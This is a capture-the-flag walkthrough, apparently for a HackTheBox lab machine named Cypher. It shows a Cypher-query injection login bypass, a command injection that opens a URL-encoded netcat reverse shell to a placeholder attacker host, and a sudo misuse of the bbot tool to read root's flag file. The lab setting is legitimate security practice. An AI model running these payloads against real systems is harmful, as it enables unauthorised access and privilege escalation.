




# Foothold

## Step 1: Scan for Open Ports

First thing, let's scan for open ports with the following `nmap` command:

```bash
nmap -sV -sC -p- --defeat-rst-ratelimit -O -A cypher.htb
```
## Scan results:


## Step 2: Investigate website

With only ports 80 and 22 open, we’ll start by examining the web service.


## Step 3: Cypher injection

After trying some Cypher injection payloads we can see that there is a huge error popping up. This strongly suggests a potential Cypher injection vulnerability.


## Step 4: Crafting authentication bypass payload

```bash
{
  "username": "admin' OR 1=1 RETURN 'a94a8fe5ccb19ba61c4c0873d391e987982fbbd3' AS hash //",
  "password": "test"
}
```
### How this works?
This payload returns the hash of the string "test", which is then used for comparison against the user-provided password hash instead of actual admins hash.



## Step 5: Crafting SSRF payload with Cypher Injection

```bash
CALL custom.getUrlStatusCode("http://ip:port/?c=$(whoami)")
```

This payload leverages a custom function to retrieve the HTTP status code from a specified URL. However, it also includes a command injection ($(whoami)) at the end of the URL, which attempts to execute a system command on the server.

### How to use?

1. Set up netcat listener on your port.

```bash
nc -lnvp 4444
```

2. Enter the payload into search query on the website.

```bash
CALL custom.getUrlStatusCode("http://<ip>:<port>/?c=$(rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20<ip>%20<port>%20%3E%2Ftmp%2Ff)")
```

3. Check your listener for response.



# PrivEsc

## Step 1: List /home/graphasm



After listing graphasms home files we find bbot configuration file which contains password in plain text. We can now use those credentials to connect to SSH as graphasm.

## Step 2: SSH as graphasm

Right after logging in, I tried running sudo -l, and this was the response.

After some time, I discovered that I can parse custom YARA rules, and with the help of the debugger flag, I can retrieve the contents of any file specified by that flag.

```bash
sudo bbot -t target.com --custom-yara-rules=/root/root.txt --debug
```


And thats how we get the root flag! :)
Cypher pwned.


